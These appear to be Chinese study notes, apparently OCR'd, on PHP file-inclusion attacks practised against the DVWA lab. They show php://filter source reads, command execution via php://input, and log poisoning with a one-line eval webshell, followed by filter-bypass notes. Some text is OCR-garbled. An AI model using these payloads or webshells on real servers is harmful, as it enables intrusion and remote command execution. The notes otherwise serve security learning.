# file wrapper
more capacity, more leaks

## PHP file wrapper

### 本地包含 LIF
include "$_GET[page]";
这个地方就执行的功能

### 远程包含 RLF
php-apache2hander.ini
需要 allow_url_include=on

直接接到远程地址

####　本地包含程序
- 将你的木马包含的一个图片中去
- 上传文件
- 运行 test.jpg

#### PHP 包含读文件
http://192.168.1.55:8080/dvwa/vulnerabilities/?page=php://filter/read=convert.base64-encode/resorce=x.php

#### PHP 包含写文件
##### condition
allow_url_include on
display_functions = pro-open,oppen, exec,system... 删掉这些语言过于危险

http://192.168.1.55:8080/dvwa/vulnerabilities/?page=php://input

提交 post 数据：<?php system('net user') ?>
调用系统函数执行命令
就可以参见用户账号和密码

#### 包含日志文件
Apache 会生成日志文件
access.log
error.log

首先需要知道文件的路径地址
如何就输入地址加上一句话木马
192.168.1.101:8080/dvwa/security.php<?php @eval($_POST('ee')); ?>

这个必定报错，然后服务器会将这个记录在日志中
然后包含日志

http://192.168.1.55:8080/dvwa/vulnerabilities/?page=/../../../Apache-20\log\access.log

然后使用菜刀进行连接 是可以进行连接的

## 文件包含

### PHP 内置协议
fopen()
copy()
file_exists()
filesize()

File://  访问文件系统
http://  访问 HTTP 网址
ftp://   访问 FTP URLS
php://   访问各个输入 / 输出流
zlib://  压缩流
data://  数据
ssh2:// secure shell
expect://  处理交互式的流
glob://   查找匹配的文件路径模式


## 文件包含防御
$file = $_GET['page']

medium level:

$file = str_replace("http://:", "", $file)
$file = str_replace("https://:", "", $file)
因为这个函数是区分大小写的，如果使用 HTTP 就绕过去

high level:

if( $file != "include.php" ){
	echo "ERROR:File not found!"
	exit;
}
